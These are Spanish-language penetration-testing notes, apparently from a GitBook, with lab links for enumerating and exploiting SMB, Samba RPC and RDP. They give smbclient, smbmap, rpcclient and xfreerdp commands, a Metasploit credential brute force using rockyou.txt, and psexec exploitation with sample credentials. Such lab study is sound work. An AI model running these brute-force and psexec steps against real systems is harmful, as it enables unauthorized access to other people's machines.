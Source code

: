 ```yaml
---
icon: '5'
---
```


# Enumeración y Explotación del Protócolo SMB, SAMBA, SNMP, IIS y RDP

## Enumeración y Explotación Básica del Protocolo SMB (Puerto 445)

{% embed url="https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view?usp=sharing" %}

Iniciar sesión sino conocemos usuario, es decir, como anónimo.

```
smbclient -L <IP máquina víctima> -N
```

Si conocemos el usuario con su contraseña.

```bash
smbclient -L //<IP máquina víctima> -U 'nombre' 
```

Con la herramienta `smbclient` no se a priori cuál tengo permisos o no. Por lo que usamos `smbmap` para ello.

```bash
smbmap -H <IP máquina víctima> -u 'nombre' -p 'contraseña'
```

Para entrar en un recurso compartido.

```bash
smbclient -U 'mario' //<IP máquina víctima>/Users
```

## Enumeración y Explotación Básica del Protocolo SMB con Metasploit

{% embed url="https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view?usp=sharing" %}

```bash
msfconsole 
use /auxiliary/scanner/smb/smb_login
show options
set RHOSTS <IP máquina víctima>
set VERBOSE false #esto hace que vaya más lento si es true
set SMBUser mario
set PASS_FILE /usr/share/wordlists/rockyou.txt
run
```

Probar si tenemos acceso en la máquina víctima con este módulo.

```bash
use /exploit/windows/smb/psexec
show options
set RHOSTS <IP máquina víctima>
set SMBUser mario
set SMBPass 123123
run
```

## Enumeración de Usuarios SAMBA y uso de RPCCLIENT

{% embed url="https://vulnyx.com/#discover" %}

```bash
rpcclient -U "" -N <IP máquina víctima>
```

Comandos importantes.

```bash
srvinfo
querydispinfo
enumdomusers
```

```
msfconsole 
show options
set RHOSTS <IP máquina víctima>
set PASS_FILE /usr/share/wordlists/rockyou.txt
set VERBOSE false
set SMBUser ken
run
```

```bash
smbmap -H <IP máquina víctima> -u 'ken' -p 'kenken' -r ken
```

## Protocolo RDP en Windows y Enumeración Básica del Sistema

{% embed url="https://tryhackme.com/r/room/investigatingwindows" %}

El RDP es **un protocolo que permite usar un ordenador de escritorio a distancia desde otro ordenador.**

```
xfreerdp /u:Administrator /p:
```


